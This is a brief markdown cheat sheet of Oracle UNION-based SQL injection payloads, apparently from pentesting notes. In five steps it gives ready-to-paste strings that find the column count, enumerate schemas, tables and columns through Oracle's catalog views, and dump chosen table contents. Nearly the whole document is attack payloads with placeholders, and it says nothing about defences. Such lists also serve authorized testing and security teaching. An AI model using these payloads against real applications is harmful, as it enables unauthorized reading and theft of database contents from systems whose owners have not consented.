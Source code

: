 # Oracle SQL injection

## UNION Based

### Step 1. Number of columns

```sql
' UNION SELECT NULL FROM DUAL-- -
' UNION SELECT NULL,NULL FROM DUAL-- -
# etc
```

### Step 2. List columns on the web

```sql
' # Example:
' UNION SELECT 'a',NULL,NULL,NULL FROM DUAL-- -
```

### Step 3. Show databases

```sql
# Show databases:
' ## To see the names of all the databases:
' UNION SELECT DISTINCT owner,null FROM all_tables-- -
' ## It shows the current DB:
' UNION SELECT user AS schema_name,NULL FROM dual-- -
```

### Step 4. Tables and columns

```sql
# Tables
' ## View all tables in all databases:
' UNION SELECT table_name,NULL FROM all_tables-- -
' ## View all tables in all databases (best format):
' UNION SELECT owner||':'||table_name,NULL FROM all_tables-- -
' ## Specifying DB:
' UNION SELECT table_name,null FROM all_tables WHERE owner = '<DB NAME>'-- -

' # Columns:
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='<TABLE NAME>'
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='<TABLE NAME>' and owner='<DB NAME>'
```

### Step 5. Dump info

```sql
' UNION SELECT <COLUMN NAME>, <COLUMN NAME>,NULL,NULL,NULL FROM <TABLE NAME>-- -
' UNION SELECT <COLUMN NAME>||':'||<COLUMN NAME>,NULL,NULL,NULL,NULL FROM <TABLE NAME>-- -
```
